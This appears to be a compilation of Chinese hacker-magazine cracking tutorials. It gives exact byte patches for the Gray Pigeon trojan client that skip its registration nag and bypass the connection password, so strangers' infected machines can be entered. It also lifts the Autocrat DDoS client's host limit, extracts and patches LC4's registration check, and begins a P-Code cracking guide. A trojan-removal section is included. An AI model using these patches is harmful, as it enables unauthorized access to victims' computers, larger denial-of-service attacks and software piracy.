从上面的代码中我们可以看到，只要将偏移地址 0054F928 处的代码 `jne 0054F93D` 改为 `jmp 0054F93D`，就可以跳过提醒注册的对话框。类似上面的代码，在 W32Dasm 中我们一共可以找到 3 处，另外两个关键比较的地方分别在偏移地址 00550731 和 00550869 处，分别为 `jne 00550746` 和 `jne 0055087E`，详细代码就不列出了，大家可以用同样的方法自己去找。顺便提一下，灰鸽子辐射正式版 1.0 对免费用户的功能限制检测有 14 处地方！

解决问题的方法：用 UltraEdit 打开 H_Client.exe，查找 “80B8550900000007513”，将它改为：`80B8550900000000EB13`，由于还有两处判断的地方，所以还要再查找机器码 “80B8550900000007513”，将其改为：`80B8550900000000EB13`。最后再查找：`80B8550900000007513`，把它改为：`80B8550900000000EB13`，这样就可以彻底解决掉提示我们注册的对话框，再也看不到那个唠唠叨叨的“唐僧”了！

## 4. 突破灰鸽子的连接密码限制

问题之所在：在灰鸽子中可以通过点击“搜索主机”按钮来搜索网上中了灰鸽子的主机，由于目前被人种下灰鸽子而不知情的用户有很多，所以你很容易就能找到这样的一台主机。是不是很想进去？当你点击“搜索到的主机”，在灰鸽子中却提示“连接密码错误！请修改主机连接密码后再次连接试试！”是不是很沮丧？呵呵，此密码是别人在种下灰鸽子时设置的，我们当然不知道了，所以在理论上我们是不能进入这类主机的。但由于灰鸽子验证连接密码是否正确以及是否进入目标主机，完全由客户端程序说了算，所以我们只要简单地修改灰鸽子的主程序，就可以在连接密码不正确的情况下进入网上任何一台中了灰鸽子的主机！这就是我们前面提到的灰鸽子的漏洞之所在！所以，我们这一步的目的就是突破灰鸽子的连接密码限制。

分析：在点击搜索到的主机时，会提示“连接密码错误！请修改主机连接密码后再次连接试试！”，所以，我们就可以用“连接密码错误”作为关键字，在 W32Dasm 中查找“连接密码错误”，然后找到关键比较的地方改之，就可以了。

步骤：用 W32Dasm 反汇编 H_Client.exe 完毕后，点击“查找”菜单下的“查找文本”，在出现的对话框中输入“连接密码错误”（图 9），



会找到如下代码：

```
text
:0056075D BAA81C5600    mov edx, 00561CA8
:00560762 E85546EAFF    call 00404DBC    // 这里判断你的连接密码是否正确
:00560767 0F851A020000  jne 00560987     // ★★如果不正确就跳走，所以不能让它跳走
:0056076D 8B55F4        mov edx, dword ptr [ebp-0C]
:00560770 8B45FC        mov eax, dword ptr [ebp-04]
:00560773 E88C44FFFF    call 00554C04
* Possible StringData Ref from Code Obj -> "1 验证连接密码正确。分配远程打开端口为：" // 密码正确时提示
......从此处开始省略几行......
* Possible StringData Ref from Code Obj -> "002"
:0056098A BA701D5600    mov edx, 00561D70
:0056098F E82844EAFF    call 00404DBC    // 这里再次判断你的连接密码是否正确
:00560994 0F85AC000000  jne 00560A46     // ★★如果不正确就跳走，所以不能让它跳走
:0056099A 8B45FC        mov eax, dword ptr [ebp-04]
:0056099D C6805409000001 mov byte ptr [eax+00000954], 01
:005609A4 8D8578FEFFFF  lea eax, dword ptr [ebp+FFFFFE78]
:005609AA E8053DFFFF    call 005546B4
:005609AF 8B8D78FEFFFF  mov ecx, dword ptr [ebp+FFFFFE78]
:005609B5 8D857CFEFFFF  lea eax, dword ptr [ebp+FFFFFE7C]
* Possible StringData Ref from Code Obj -> "1 连接密码错误！请修改主机连接密码后再次连接试试！"
```

解决问题：用 UltraEdit 打开灰鸽子的主文件 H_Client.exe，然后分别查找 `0F851A020000` 和 `0F85AC000000`，找到后把它们改为 `909090909090`，使偏移地址 00560767 那一行的 `jne 00560987`、偏移地址 00560994 那一行的 `jne 00560A46`，变为空操作，使之永远也不跳走，这样就解决了灰鸽子连接密码限制问题！

## 四、如何清除灰鸽子

- 1. 如果是自己不小心运行了灰鸽子

如果是自己在玩灰鸽子时，不小心运行了服务端程序，可以在上网后，看客户端的“服务端在线列表”里能否看到自己，如果能看到，可以运行客户端程序与自己连接上，再点击“远程控制命令”→“其他控制”→“自动卸载服务端”，然后重启电脑，删除 C:\Windows\System 中的服务端程序（文件名是由用户设置的），再删除 Win.ini 文件中“Run”值后面的启动项即可！

- 2. 主动清除远程主机上的服务端

如果你控制有数台中有灰鸽子的主机，出于好心想删除远程主机上的服务端，可以运行灰鸽子客户端与对方连接上，再点击“远程控制命令”→“其他控制”→“自动卸载服务端”，就可以彻底清除远程主机上的服务端程序。

- 3. 普通用户中了灰鸽子后的清除方法

- (1) 清除注册表中的启动键值

由于我们前面修改了注册表编辑器的名称，所以这里运行注册表编辑器时要打开“开始”菜单中的“运行”，然后输入“regedit.com”，展开注册表到 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 和 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices，在右边的窗口中删除名为“LoadWindows”的键值就可以了。

灰鸽子默认设置不关联文件，如果给你下马的人愿意的话，该木马可以与以下 4 种文件和木马关联：exe、txt、ini、inf 文件，所以我们还要做好修改文件关联的准备。

恢复 exe 关联：找到 HKEY_CLASSES_ROOT\exefile\shell\open\command，将其默认键值改成“%1” %*。

恢复 txt 关联：HKEY_CLASSES_ROOT\txtfile\shell\open\command 下的值改为正常情况下的 C:\windows\notepad.exe %1

恢复 ini 关联：INI 文件的关联配置数据保存在注册表 HKEY_CLASSES_ROOT\Inifile\Shell\Open\Commd 主键下，默认键值数据也是“c:\Windows\notepad.exe%1”，如果被修改的话，也要改回来。

恢复 inf 关联：打开注册表的 HKEY_CLASSES_ROOT\Inifile\Shell\Open\Commd 主键，和 ini、txt 文件关联一样，其默认键值数据也是“c:\Windows\notepad.exe%1”，如果被修改的话，要立刻更改回正确的数据。

- (2) 删除服务端程序

由于在 Windows 环境下灰鸽子的服务端程序处于运行状态，无法直接删除，我们要进入纯 DOS 状态，执行如下命令删除灰鸽子服务端程序，这里假设你的 Windows 安装在 C:\Windows 下：

```
cd c:\windows\system // 进入 c:\windows\system 目录
attrib -r -s -h kernel32.exe // 用 attrib 命令去掉 kernel32.exe 文件的只读、系统、隐藏属性
attrib -r -s -h notepod.exe // 用 attrib 命令去掉 notepod.exe 文件的只读、系统、隐藏属性
del kernel32.exe // 删除 kernel32.exe 文件
del notepod.exe // 删除 notepod.exe 文件
```

另外，如果我们直接删除了灰鸽子服务端程序，而服务端又设置了 exe 文件关联的话，将会导致注册表编辑器无法运行，所以我们要在删除灰鸽子服务端程序前，先将注册表编辑器 regedit.exe 改名为 regedit.com 文件，最后删除 Win.ini 文件中“Run=”后面的启动项即可。

至此，灰鸽子已经被我们彻底扫地出门，大家的网上安全又有了保证！

## 五、结束语

从前面的分析中不难看出，灰鸽子在自我保护上还有所欠缺，希望作者能早日解决这些问题，这也是我写此文的主要目的。最后声明：本文只是作为技术交流，希望大家不要用本文提到的方法进行破坏，更不要随便按文中提到的方法做试验，否则后果自负，本人概不承担！事实上，作为远程管理软件，灰鸽子真的很出色，希望感兴趣的朋友能去注册，支持国产软件的发展，愿灰鸽子能展翅高飞，早日成为远程管理软件之王！

# 突破独裁者DDoS攻击器只能添加10台主机的限制

文 / supersong

DDoS是Distributed Denial of Service的缩写，意思是分布式拒绝服务攻击。它是指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DoS攻击，从而成倍地提高拒绝服务攻击的威力。目前可以用来进行DDoS攻击的工具软件非常多，独裁者Autocrat DDoS client就是其中之一。

独裁者DDoS攻击器是进行网络DDoS攻击的工具，作为DDoS攻击利器，它支持4种攻击方法：SYN、LAND、FakePing、狂怒之Ping。程序分为Client和Server两部分，其中Client对应的程序为Client.exe，Server对应的程序为Server.exe。Server在肉鸡上执行后会自动安装为NT服务程序并删除自身，以后将会采用NT Service方式在肉鸡上作为木马运行，可以通过Telnet、HTTP方式控制，方法是：直接在IE输入http://ip:8535即可。Client.exe程序可以运行在各个Windows操作系统，但在Windows 98/Me下只能发起狂怒之Ping攻击，在Windows 2000/XP下能使用所有功能。

图1

运行独裁者DDoS攻击软件中的Client.exe，可以看到如图所示界面（图1），其功能一目了然。点击“添加”按钮，可以添加进行DDoS的主机。令人遗憾的是，在主机列表框中最多只允许我们添加10台主机，超过这个数目再点“添加”按钮，就会弹出一个对话框，显示：已经超过主机上限，禁止添加（图2）。虽然主机数量的多少并不影响DDoS攻击的效果，但具体添加几台主机应该由我们用户决定嘛，而且主机列表是一个很大的文本框，只添加10台主机进去有些浪费空间，实在是太可惜，所以我们要突破独裁者只能添加10台主机的限制，让我们可以随心所欲添加主机。

图2

## 一、检测软件是否加壳

我要破解的这个版本为V1.26.52版，用加壳检测工具Language2000检测看它是否加壳了。运行Language2000，点击“Open”按钮找到Client.exe将其加载到Language2000中，等一下就会出现结果。检测结果表明独裁者DDoS攻击器是用VB6.0编写的，内部版本为V1.26.0059，采用PECompact压缩过（图3）。要想暴力破解或静态分析就得给它脱壳。

图3

态分析就得给它脱壳。既然已知是PECompact加的壳，那我们就用UNPECompact来脱壳。运行UNPECompact，点击“Start”按钮把Client.exe加载进来，无需我们干涉，UNPECompact就会自动给它脱壳（图4），脱壳后会生成一个名为unpacked.exe的文件。运行脱壳后的文件试试，一切正常。这样我们就可以把原来的Client.exe文件删掉，把脱壳后的unpacked.exe文件改名为Client.exe。请大家注意，下文中我们提到的Client.exe都是脱壳后的该文件。

图4

## 二、动静结合初步分析

由于独裁者是VB编制的软件，这类软件有个特点就是非常难以破解。静态反汇编生成的代码垃圾非常多，很难找到软件的比较核心。而用动态跟踪的方法也很麻烦，因为VB程序本质上都是解释执行的，它们只是调用VBxxx.DLL中的函数，因此VB的可执行文件是伪代码，程序都在VBXXX.DLL里面执行。若用Soft-ICE、TRW2000跟踪调试只能在VBxxx.DLL里面用打转转，看不到有利用价值的东西，而且代码质量不高，结构还很复杂。基于以上考虑，我们决定进行动静结合分析，双管齐下破解该软件。

首先，用动态跟踪试试。运行独裁者，按“添加”按钮添加主机，先添加到10台，然后运行动态跟踪利器TRW2000，按Ctrl+N热键呼出TRW2000的调试界面，下断点：BPX rtcMsgBox，按F5返回到独裁者中。解释一下：由于独裁者是VB6.0程序，所以我们下断点BPX rtcMsgBox，rtcMsgBox是VB程序的警告窗口函数。由于加第11台主机时会弹出警告窗口，所以我们下该断点，目的是只要独裁者调用该函数就中断下来。注意，如果你使用的是SoftICE，下断点时要用BPX MSVBVM60!rtcMsgBox指令。

接下来，按“添加”按钮，立刻被TRW2000拦截下来了。下断点BC*，清除所有断点。然后按一下F12键会回到独裁者中，程序会显示那个警告对话框，不理它，点击对话框中的“确定”按钮又回到调试窗口中。按一下F10键，会来到这里：

```
015F:004109F1 6A30           PUSH BYTE +30
015F:004109F3 51             PUSH ECX
015F:004109F4 FF1574104000   CALL [MSVBVM60!rtcMsgBox]  <---- 执行到这里会弹出警告对话框
015F:004109FA 8D5594         LEA EDX,[EBP-6C]         <---- 光标停留在这一行，向上看
```

当我们在独裁者中添加的主机超过了10台，程序就会调用偏移地址004109F4这一行的CALL，并弹出警告窗口。所以，让我们向上看哪里可以跳过这里，在TRW2000中直接判断哪里是关键有些困难，让我们用静态反汇编工具W32dasm，这是它的强项，下面我们开始静态反汇编。

运行W32dasm，加载Client.exe文件完毕，本想先点击“参考”菜单下的“串式参考”，结果发现“串式参考”为灰色不可用状态，而在正常情况下，我们可以点击它，从而看到软件中许多提示信息，并通过双击这些文本信息找到对应的代码，看来这个办法现在行不通了。没关系，我们在前面已经知道程序会调用004109F4处的CALL，该CALL会调用rtcMsgBox函数。所以，我们可以在W32dasm中点击“转移”菜单下的“转移到代码位置”，在出现的窗口中填入004109F4（图5），点击“确定”按钮就来到了如下代码处：

图5

```
* Referenced by a (U)nconditional or (C)onditional
Jump at Address:
:00410470(C) <---------- ★★不难看出就是这里对应的代码会调用下面这些代码
* Reference To: MSVBVM60.__vbaVarDup, Ord:0000h
............此处省略部分代码............
:004109F1 6A30 push 00000030
:004109F3 51   push ecx
* Reference To: MSVBVM60.rtcMsgBox, Ord:0253h
<---- 是不是很眼熟啊？要调用rtcMsgBox函数显示警告窗口
:004109F4 FF1574104000 Call dword ptr [00401074]
<-------- 这就是产生警告窗口的Call
```

从上面的代码中我们可以看出，是偏移地址0410470处的代码会调用我们找到的这段代码，也就是说上面我们看到的代码是偏移地址0410470处代码的子程序，偏移地址0410470处的代码才是关键之所在。于是点击“转移”菜单下的“转移到代码位置”，在出现的窗口中填入0410470，点击“确定”就来到了调用这段子程序的地方：

```
* Referenced by a (U)nconditional or (C)onditional
Jump at Address:
;0041043E(C)

;00410452 33C0 xor eax, eax    <------ EAX和EAX进行异或运算，结果是EAX为零
;00410454 6683BDF0FEFFFF09 cmp word ptr [ebp+FFFFFFF0], 0009  <--- 添加的主机数量是否超过了9台
;0041045C 8D4DD8 lea ecx, dword ptr [ebp-28]
;0041045F 0F9EC0 setle al <--- setle条件置位指令；ZF=1或SF不等于OF，则AL置1；否则置0。
;00410462 F7D8 neg eax <------ 这两句的主要目的就是检查添加的主机是否超过9台
;00410464 668BF0 mov si, ax <------ 把AX传送入到SI中

* Reference To: MSVBVM60.__vbaFreeObj, Ord:0000h
;00410467 FF1594114000 Call dword ptr [00401194]
;0041046D 663BF3 cmp si, bx <---- 比较SI和BX是否相等，检查主机列表框中是否为10行
;00410470 0F8412050000 je 00410988 <------ ★★这里如果不相等则跳转到警告窗口★★
```

偏移地址00410470处的代码je 00410988就是判定是否出现警告窗口的关键所在，如果这里跳走了则一定会产生警告窗口，如果不跳则不会产生警告窗口。现在，我们拿笔记下此行机器码：0F8412050000；然后退出W32dasm。运行16进制文件编辑器UltraEdit，用它打开Client.exe文件，然后按Alt+F3查找你刚刚记下的代码：0F8412050000，会找到惟一的一处结果，把其中的84改为80，然后保存修改结果，退出UltraEdit。

解释一下：这一步的目的是把偏移地址00410470处的代码je 00410988改为jo 00410988，即将判定条件由等于或为零才转移，改为溢出转移（jo是溢出转移指令），由于jo 00410988的机器码为0F8012050000，所以我们把84改为80。那么为什么不将je 00410988改为jne 00410988即不等于则跳走呢？那是因为这样改的话，表示添加的主机少于10台就报错，这可不是我们修改此程序的初衷。

运行独裁者，按“添加”主机按钮，再也不会弹出“已经超过主机上限，禁止添加”的提示了！好像成功了！输入新的主机IP地址，按“确定”按钮，虽然程序没有报错，但文本框中的主机数还是10行，没有添加成功！看来程序还有其他判断的地方。

## 三、动静结合深入破解

在TRW2000中下断点：BPX Hmemcpy，再次点击“添加”按钮，立刻被拦截下来。输入BC*命令清除所有断点，然后再输入Pmodule指令返回到被调试程序的领空。我们会中断在这里：

```
015F:00410513 8B3578140000 mov esi, dword ptr [00401178]
按F10键单步执行程序，没有走多远，我们会来到这里：
015F:004105A8 33C9 xor ecx, ecx
015F:004105AA F7D8 neg eax
015F:004105AC F7D8 neg eax
015F:004105AD 6683BDF0FEFFFF09 cmp word ptr [ebp+FFFFFFF0], 0009
```

看到上面的代码就意味着我们要成功了，因为又是[ebp+FFFFFFF0]和数字9进行比较，用Debp+FFFFFFF0指令看一下，在数据区发现其值为0A，也就是十进制的10！这说明[ebp+FFFFFFF0]是程序的局部变量，里面存放着独裁者主机列表中的主机数目，所以你也可以改这里，但本文不提倡这种改法，因为对新手来说不易理解。

继续按F10键，没走几步会来到下面这些代码处（图6）：

```
015F:004105C7 FF1594114000 CALL [MSVBVM60!__vbaFreeObj]
015F:004105CD 6683BDE4FEFFFF00 CMP WORD [EBP+FFFFFEE4], BYTE +00
015F:004105D5 0F84D5020000 JZ NEAR 004108B0
```

当程序执行到偏移地址004105D5这一行时，默认情况下程序是要跳转走的，我们输入指令：r fl z，改变状态标志位ZF为0，会使程序不再跳走。然后按F12键会退回到独裁者的主界面中，仔细看主机列表框，你刚刚输入的主机IP地址已经添加进去了，我们已经突破了独裁者只能添加10台主机的限制！关闭独裁者，运行UltraEdit，用它打开Client.exe文件，查找0F84D5020000，把它改为0F80D5020000，即将偏移地址004105D5处的代码JZ 004108B0改为JO 004108B0，保存修改结果，退出UltraEdit，运行独裁者添加主机试试，完全没有问题（图7）。

有的朋友可能会问：为什么不把JZ 004108B0改为JNZ 004108B0，那是因为如果这样改的话，当你添加的主机数量少于10台时，输入主机IP地址后，点击“确定”按钮，在主机列表中并不会把该主机添加进去，所以我们不能这么改，而改为JO 004108B0就没有任何问题，这也是我在试验过之后得到的结论。OK，现在我们就可以在独裁者中随心所欲地添加主机了，大功告成！

图6

图7

# 超级密码破解利器LC4解密过程

文／君儒

LC4是一款运行在Windows NT/2000下的超级密码破解利器，允许用户自定破解策略，支持本地、远程甚至嗅探密码的HASH值。作为一款暴力破解密码工具，LC4不仅可以检测用户是否使用了不安全的密码，还可以在你的系统管理员账号密码丢失时大显身手。它宣称在P300机器上不到48小时可以破解90%的超级用户口令，而如果是少于8位的密码，则可以在24小时之内破解出来。

LC4需要注册才能实现其全部功能，所以我们要想办法注册它。下载安装完毕，运行LC4，出现如图1所示窗口，在这里你可以选择“Trial”，即继续试用，也可以选择“Register”，表示要注册。

图1

点击“Register”按钮后，会出现如图2所示窗口。

图2

在“Serial”栏中是软件自己计算出的序列号，而“Unlock Code:”栏中要求我们填入注册码。注册码可以随便填入，按照我的习惯，我填入了：31415926。点击“OK”按钮之后，会出现一个对话框，显示“You have entered an invalid code. Please try again”（图3），显然是在告诉我们注册码不正确。

图3

从中可以看出这是典型的一机一码制！即一个注册码只能用在一台机器上，换台机器原来的注册码就不能使用了，现在绝大多数软件都采用了这种和硬件有关的注册方式。

千万不要灰心，毕竟我们这是在试探嘛，哪能这么容易就填对了呢！实际上，在解密的过程中，看到这样的提示对话框其实是个很好的现象。碰到那种不管注册码对不对都没有反应的才麻烦呢！如果我们反汇编该类有提示信息的软件，就可以查看到提示信息相应的代码，从而加快我们的破解过程。

现在，请出我们的解密利器——TRW2000。按Ctrl+N键呼出TRW2000，进入它的调试界面，然后输入bpx hmemcpy下断点。按F5返回到注册窗口中，点击“OK”按钮被中断下来，输入bc*指令清除所有断点。然后再输入pmodule这个TRW2000才有的指令，返回到程序的领空。

接下来，按F12键34下，再按1下F10键，就来到了程序注册码的关键比较区域。有朋友可能要问：你怎么知道要按F12键34下呢？因为再按一次就会出现提示窗口，告诉你注册码错误！由于我用TRW2000跟踪试验过，所以我知道必须少按1次F12键。除此之外，经验也帮助了我。常言说得好：授人以鱼，不如授人以渔。为了使大家能理解这种方法，更好地应用到其他软件的解密过程中，在此简单地说一下。一般情况下，当我们按了F12键N次后，软件出现提示说注册码错误，此时我们不难想到，注册码的关键比较地方应该是在此之前的按F12那一次，所以少按1次F12键就可以进入软件的注册码的关键比较之所在。以后碰到这种出现对话框提示注册码不正确的软件，就可以按这个方法去试试。

继续我们的破解过程，前面我们已经来到了注册码的关键比较区，其代码如下（“//”后面的内容是我加的注释，方便大家理解）：

```
015F:00411BCB 8D8C2430010000 LEA ECX,[ESP+0130] //按F12键34下后，再按1下F10，会来到这一行
015F:00411BD2 E85CC30200 CALL0043DF33 //取你输入的假注册码；输入D ECX就可以看到
015F:00411BD7 83F801 CMP EAX,BYTE +01 //比较EAX是否等于1
015F:00411BDA 757A JNZ 00411C56 //如果EAX不等于1则跳走，之后会自动启动软件
015F:00411BDC 8D842490010000 LEA EAX,[ESP+0190]
015F:00411BE3 50 PUSH EAX //EAX入堆栈
015F:00411BE4 8BCF MOV ECX,EDI //把EDI中的值传送到ECX这
015F:00411BE6 E8C1CF0200 CALL0043EBAC //取软件的Serial，为11:044e6
015F:00411BEB 8B4500 MOV EAX,[EBP+00] //把软件的Serial送入EAX中
015F:00411BEE 8D4C2420 LEA ECX,[ESP+20]
015F:00411BF2 51 PUSH ECX //ECX入堆栈
015F:00411BF3 50 PUSH EAX //EAX入堆栈
015F:00411BF4 E8B722FFFF CALL00403EB0 //在这里程序会自动计算LC4软件的注册码
015F:00411BF9 8B07 MOV EAX,[EDI] //★输入D EAX，可以看到我们输入的假注册码
015F:00411BFB 8D542428 LEA EDX,[ESP+28] //★输入D EDX可以看到一串字符：a3713f55
015F:00411BFF 52 PUSH EDX //EDX入堆栈
015F:00411C00 50 PUSH EAX //EAX入堆栈
015F:00411C01 E8955C0100 CALL0042789B //★比较注册码的关键CALL，感兴趣可按F8进入
015F:00411C06 83C410 ADD ESP,BYTE +10
015F:00411C09 85C0 TEST EAX,EAX //真假注册码相等吗？
015F:00411C0B 7523 JNZ 00411C30 //如果真假注册码不相等则跳转，所以这里不能跳
015F:00411C30 53 PUSH EBX //如果注册码不相等则来到这一行
015F:00411C31 53 PUSH EBX //EBX入堆栈
015F:00411C32 6800144700 PUSH DWORD 00471400
015F:00411C37 E8D3720300 CALL00448F0F //执行到这一行就会显示注册失败的对话框
```

从上面的分析中，不难得出这样的结论：当程序执行到偏移地址00411BFB时，输入D EDX就可以得到LC4的真正的注册码！而偏移地址00411C01那一行的CALL 0042789B就是比较注册码的关键CALL，对该软件算法感兴趣的朋友可以按F8键进入此CALL看看，算法并不复杂。如果你想暴力破解LC4（呵呵，典型的以暴制暴——不要忘了，LC4是款典型的暴力破解密码的软件），可以改偏移地址00411C0B那一行的代码JNZ 00411C30（机器码：7523），将其改为JZ 00411C30（机器码：7423）。

现在，试试我们刚刚得到的注册码，把a3713f55填入到“Unlock Code:”栏中，点击“OK”按钮，出现一个对话框，显示：

图4

“You have successfully registered LC4.”（图4），我们注册成功了！点击该对话框中的“确定”按钮，会进入LC4的主界面中，点击“Help”菜单中的“About LC4”，你会看到这里记载着你的LC4的Serial和Unlock Code信息。是不是很有成就感？就算别人的LC4玩得再精，如果注册码是用他人写的注册机得来的，也会存在一份缺憾！而你则可以拥有属于自己的骄傲：我是自己动手得到LC4注册码的！快动手试验，体验属于你的那份快乐与自豪吧！

## P-Code 是微软公司的 VB 编译器的相对于 Native 编译方式（本地机器代码编译方式）的另一种编译方式，实际上是一种压缩编码的方式，P-Code 的基本工作原理是编译器先把执行程序编译为比 80X86 机器码紧凑得多的中间代码形式，然后在链接时把一个小工作引擎嵌入执行程序中，最后在运行时由此工作引擎把 P-Code 解释为本地机器码实际执行。其主要目的也就是为了能减少程序的尺寸。如果你的程序是个大型程序的话，你会发现使用 P-Code 会比 Native 型减少大概 40% 左右的空间占有量。正因为如此，在破解 P-Code 程序时给 Cracker 带来一定的难度，那么，有没有相对简单的方法进行破解呢？答案是有的！

# 用 WKTVBdebugger 来注册 P-Code 保护的程序

文/[8d1]lsqqq

不知道大家有没有这种情况，用到某个软件（例如：英语八哥系列等等），苦于无法注册，而上各大论坛寻求帮助，但是回复却说“P-Code 的，注册机不好做啊，抱歉了！”等等之类的话。那么，为什么 Cracker 们觉得这么难于做出注册机来呢？

原因在于，如果你用传统的调试工具（例如：Softice、TRW 等），P-Code 的引用会产生许多跳转指令，所以调试目标程序时难于阅读和跟踪，虽然现在已经有了很多相关的工具协助 P-Code 的调试，难度大大降低了，但是由于大部分的 Cracker 还没有掌握那些复杂难懂的 P-Code 缩略语，所以目前来说这种程序还是比较难以破解的。本文通过利用现在最流行的专门调试 P-Code 的利器 WKTVBdebugger 来破解一个小软件向大家讲解一下这种程序的破解方法。

由于这类东西不是汇编代码，我们基本不需要汇编能力，但我们假设读者可以读懂一些简易的 for……while 等循环结构和能够理解 push、pop 的含义。

我们今天要用到的工具如下：WKTVB debugger。用来试验的小软件是心跳情书 2.5 版。这个软件加了壳了，我们需要脱掉它才能被 WKTV 认出是 P-Code 的东西，否则 WKTV 不能正常工作的。WKTVBdebugger 是老外写的一个专门调试 P-Code 的调试工具，基本上大家对他还是认可的，就是有点小缺点（字太小啦，看得眼痛，呵呵……）好了，Let's go!

运行 WKTVBdebugger，File——>Open 用 aspackdies 1.3d 脱壳后的 unpacked.exe，如果一切正常的话，WKTV 会显示如图 1 所示的信息，告诉你程序的动态链接库是什么版本（VB5 或者 VB6）。

图 1

然后我们点击 Action 菜单，点击 Run 选项，不出任何意外，我们可以得到两个提示框。经过这两个提示框后，我们就进入调试界面了，如图 2 所示。我们来观察一下 WKTV 的调试环境：

图2

首先提一下如何堆栈区，如果有数据出栈进栈的话，我们可以看到stack窗体有反应。如果想查看数据的话，我们可以选Memory Dump或Ctrl+M也可，在弹出的窗口中输入想要的地址就可以看到数据。再来看看调试用的按钮，可以看到Step Trace（单步步进可以跟进子函数）和Trace Ret（运行到该函数末尾）、Trace Over（单步步进，子函数不跟进）、Go！（直接运行）如果你平常用过调试器调试过程序，你会很快适应它的工作方式。我们如果想设断点的话，我介绍一下几种常用的方法。看到左上角的代码框没有？在你想断下的一行双击就可设下断点，在所在行点击右键弹出的菜单中也可以设断。如果你知道程序代码的位置，也可以右键break list，然后直接输入代码的地址设断。好了，现在我们按下F5键让软件运行，然后进入主程序，选中“帮助”菜单中的“注册软件”选项，弹出了提示让我们注册的一个对话框，我们观察了一下，上面和注册有关的实际上有两个TextBox和一个Button，并且用来显示机器码的这个TextBox是不可读的。好，我们现在回到WKTV中，点击FormManager按钮，接着会弹出图3所示的窗体，我们要做的事情就是选中frmAbout项，然后点Command，在弹出的窗体中选cmdReg，然后BPX，如图4所示。可以看到这里的一切都很直观，一看就知道cmdReg和注册有关啦，是不是？

好了，我们现在关闭图4中的窗体，然后回到心跳情书的界面，在注册码中随便输入几个数，例如：“123123123”，然后，我们点击注册按钮，立刻断下回到了WKTV的调试环境中，好，我们看看代码框中的内容：

```
text
004A8088: 04 FLdRfVar 007BE504h  // 我们断在这里
......
004A808C: 0F VCallAd frmAbout.txtUserName
// 很明显要读About form中UserName
......           // EditBox框中的内容了
004A8095: 0D VCallHresult get__ipropTEXTEDIT/
// 这里 get TEXT from EditBox
......
004A809E: 0F VCallAd frmAbout.txtSN
// About Form中SN EditBox...
......
004A80A7: 0D VCallHresult get__ipropTEXTEDIT/
// 取字符串
......
004A80BA: 0B ImpAdCallI2 modRegister!004A13D8h
// 在这里负责注册码的生成并判断
004A80BF: F4 LitI2_Byte: -> FFh 255
004A80C1: C6 EqI2
```

刚看到这种代码，我想除非是爱因斯坦一样的天才，否则大部分人都会感到难以理解，我开始也是这样的，其实大部分的含义都可以凭字面意思猜得出来的。为了方便大家理解，我来说一下个别缩略语的含义：

## （一）负责函数调用的缩略语

图3

图4

带关键字“Call”的一般都是用来调用函数的语句，例如 ImpAdCallHresult、ImpAdCallFPR4、ImpAdCallI2、ImpAdCallCy、VCallHresult、VCallFPR8、VCallAd，都是用来调用某个函数的语句。

## （二）和程序的跳转有关的缩略语

我们常常遇到的有如下 3 种：BranchF、BranchT 和 Branch，BranchF 相当于是 Branch somewhere if case is False，即如果假定的条件为假，就跳向所指向的地址，BranchT 则恰恰相反，是如果指定的条件为真，就跳向所指向的地址，而 Branch 则是不管青红皂白，直接跳向目的地，应该很好理解的。

## （三）和设置函数所用到参数有关的

我们知道，汇编中函数想得到运行必须的参数，可以提前将数据压入堆栈，待函数处理的时候再弹出就可以处理了。P-Code 中也是类似的，也需要将参数压入堆栈，然后就出来了下面这些缩略语：LitVarI2（压入一个双字节的变量）、LitVar.TRUE（同时一个顺便设置逻辑变量为真）、IldRf（压入参数）、IldI2（压入双字节数）、IldI4（压入四字节数）、IldR8（压入一个 8 字节实数）、ILdFPR4（压入一个 4 字节浮点数的指针）、ILdFPR8（压入一个 8 字节浮点数的指针）

## （四）和数学运算有关的

形如：ADDXXX、SUBXXX、MULXXX、DIVXXX、NEXXX、EqXXX 之类的语句，我想这些东西我们凭字面意思应该可以理解吧，这里就不多提了。

## （五）其他

要记住常用的数据类型大致有如下的几种缩写形式：str、I2、I4、R4、R8、Cy 分别对应 integer、word、single、double 等，有一些函数需要我们用猜的。

由于 P-Code 指令太多，难以一个一个解释，所以我们这里就不多说了。好，回过来看我们上面的代码都用到了哪些。VCallAd、VCallHresult 和 ImpAdCallI2 都是这样的语句了，所以总共有 5 次函数调用，其中，前两次负责从 UserName 文本框中取得字符串，紧接着的两个是从 SN 文本框中取字符串，最后一个从名字中可以知道是负责处理注册码的了，当然中间我们省略了不少代码，这些代码对于我们破解这个软件甚至与做出注册机来都不是很有关系，所以完全可以不去看它，我们只看关键的。大家看这一句：

```
text
004A803A: 0B ImpAdCallI2 modRegister|004A13D8h
```

它的含义就是调用一个函数来判断我们输入的注册码是否正确，我们可以现在进入这个调用；利用 F8 步入：

```
text
004A13D8: 4B OnErrorGoto 004A1489h
```

// 我们停在这里，在这里我要说明一点，在 WKTV 中，似乎跳转指令都被当成函数调用来处理了，所以在遇到跳转指令的时候必须按 F8 步过，如果是 F10 的话，WKTV 会寻找相对应的返回地址（因为不是函数，当然不会找到），导致程序没有继续步过而是直接运行下去。所以，记住，遇到 BanchX 的时候务必要 F8 步过，下面是算法详细分析，由于版所限，请各位读者参看光盘：

